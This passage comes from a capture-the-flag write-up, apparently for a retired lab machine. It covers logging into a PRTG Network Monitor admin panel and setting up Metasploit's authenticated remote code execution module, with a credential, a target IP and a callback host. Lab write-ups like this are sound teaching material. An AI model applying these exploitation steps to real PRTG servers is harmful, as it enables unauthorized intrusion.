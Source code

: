 My guess was right and we're in!

<center><img src="/assets/img/feature-img/admin-welcome.png" alt="Admin Welcome"></center>

Now, let's move on to Exploitation part.

First, we will use Metasploit for exploitation as it is easy, then we will do manual exploitation.

<hr>

## Exploitation

### Exploitation #1: Metasploit

Let's search in Metasploit if there is any module for PRTG.

```bash
msf6 > search prtg

Matching Modules
================

    # Name Disclosure Date Rank Check Description
    - ---- --------------- ---- ----- -----------
    0 exploit/windows/http/prtg_authenticated_rce 2018-06-25 excellent Yes PRTG Network Monitor Authenticated RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/prtg_authenticated_rce
```

We can see that it is vulnerable to RCE. Let's use this exploit and set the required things.

- set ADMIN\_PASSWORD to `PrTg@dmin2019`
- set RHOSTS to `10.10.10.152`
- set LHOST to your machine's `tun0` IP
- run the exploit
